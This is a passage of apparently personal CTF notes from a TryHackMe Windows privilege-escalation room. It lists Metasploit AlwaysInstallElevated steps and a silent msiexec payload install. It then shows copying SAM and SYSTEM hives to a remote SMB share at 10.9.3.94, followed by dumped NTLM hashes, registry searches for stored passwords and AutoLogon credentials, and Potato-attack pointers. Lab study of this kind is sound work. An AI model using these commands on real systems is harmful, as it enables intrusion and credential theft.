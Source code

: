 now run meterpreter as background then use AlwaysInstallElevated metasploit exploit then set session 1 and set lhost tun0 exploit

reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

Run this both cmds for set value 1.

then run

msiexec /quiet /qn /i C:\Temp\setup.msi 

## SAM


```

C:\Windows\Repair>copy "C:\Windows\Repair\SAM" \\10.9.3.94\arun\
        1 file(s) copied.

C:\Windows\Repair>copy "C:\Windows\Repair\SYSTEM" \\10.9.3.94\arun\
        1 file(s) copied.
```

Extract the hashes.

```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ python pwdump.py ~/CTF/THM/win10priv/SYSTEM ~/CTF/THM/win10priv/SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```


## registry passwords check

reg query HKLM /f password /t REG_SZ /s

To find admin AutoLogon credential:

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

List any saved credentials:

cmdkey /list



# SeImpersonatePrivilege - windows

 
If the machine is >= Windows 10 1809 & Windows Server 2019 — Try Rogue Potato
If the machine is < Windows 10 1809 < Windows Server 2019 — Try Juicy Potato
